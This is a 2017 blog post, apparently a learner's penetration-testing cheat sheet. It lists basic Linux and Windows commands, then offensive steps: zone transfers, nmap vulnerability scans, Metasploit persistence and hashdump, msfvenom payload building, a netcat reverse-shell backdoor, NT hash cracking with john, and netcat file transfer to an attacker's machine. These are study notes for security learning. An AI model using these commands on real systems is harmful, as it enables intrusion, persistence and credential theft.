 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
###Get Help … and other info
<ul>
	<li><code>C:\> <command> /? </code></li>
	<li><code>root@kl~# <command> -h </code></li>
	<li><code>root@kl~# <command> --help </code></li>
	<li><code>root@kl~# man <command> </code></li>
	<li><code>root@kl~# apropos </code></li>
	<li><code>root@kl~# history </code></li>
	<li><code>root@kl~# hostname</code></li>
	<li><code>root@kl~# sudo </code></li>
	<li><code>root@kl~# whoami </code></li>
		<ul>
		<li>\(print current user id and name\)</li>	
		</ul>
	<li>root@kl~# date</li> 
	<li>C:\>  chdir (displays location)</li>
	<li>root@kl~# pwd </li>
		<li>(displays location)</li>
</ul>
###Processes and Things
root@kl~# jobs 
(list cronjobs)
root@kl~# kill 
(stop processes)
root@kl~# pkill 
(stop processes)
root@kl~# ps –aef 
(list processes status)
C:\ tasklist
Files
root@kl~# cp <src> <dst> (copy)
C:\> copy <src> <dst>
root@kl~# clear
C:\> cls
C:\> dir
root@kl~# echo <message>
(print to screen)
root@kl~# find –iname <file>
C:\> findstr /i /s <string> *.txt
(like grep for Windows)
root@kl~# file
(determine file type)
C:\> dir \ <file> /b /s
root@kl~# grep
(search files for matching text)
root@kl~# gzip
(compress or decompress files)
root@kl~# less 
(display output one screen at a time)
root@kl~# locate
root@kl~# ls
root@kl~# mkdir 
(new directory)
root@kl~# mv <src><dst> (move/rename a file)
C:\>  move <src> <dst>
root@kl~# rm (remove files)
C:\> ren (renames file)
root@kl~# umask 
(users file creation mask)
root@kl~# uniq 
(uniquify files)
root@kl~# vi/vim 
(the best text editor)
root@kl~# wc 
(print byte, word and line counts)
root@kl~# whereis 
(search $path, man pages and source files for program)
Users
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
